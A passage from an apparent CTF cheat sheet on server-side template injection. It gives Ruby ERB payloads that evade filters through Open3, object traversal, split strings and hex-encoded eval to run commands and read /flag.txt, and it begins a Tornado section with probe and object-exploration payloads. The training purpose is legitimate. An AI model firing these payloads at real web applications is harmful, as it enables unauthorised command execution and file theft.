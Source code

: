 
## Bypass Techniques

If basic injection is filtered:

1. **Using Alternative Syntax**:
    
    ```
    <% require 'open3' %><%= Open3.capture2('cat /flag.txt') %>
    ```
    
2. **Object Traversal**:
    
    ```
    <%= [8].class.ancestors[1].ancestors[1].constants.find_all { |c| c =~ /File/ }[0].to_s.constantize.new('/flag.txt').read %>
    ```
    
3. **Breaking Up Strings**:
    
    ```
    <%= "cat"+" "+"/flag.txt" %>
    <%= eval("File.op"+"en('/flag.txt').read") %>
    ```
    
4. **Using Unicode/Hex Encoding**:
    
    ```
    <%= eval("\x73\x79\x73\x74\x65\x6d('cat /flag.txt')") %>
    ```
    
# SSTI for Tornado Templates (Python)

Tornado templates are Python-based templating engines often used with the Tornado web framework. Here's how to perform Server-Side Template Injection (SSTI) in Tornado templates for CTF challenges:

## Basic Testing

To confirm a Tornado template injection vulnerability:

```
{{ 7 * 7 }}
```

If this returns `49`, you've confirmed the vulnerability.

## Advanced Payloads

### Object Exploration

```
{{ handler }}
{{ handler.settings }}
{{ handler.application }}
{{ handler.__dict__ }}
{{ self }}
{{ globals() }}
```

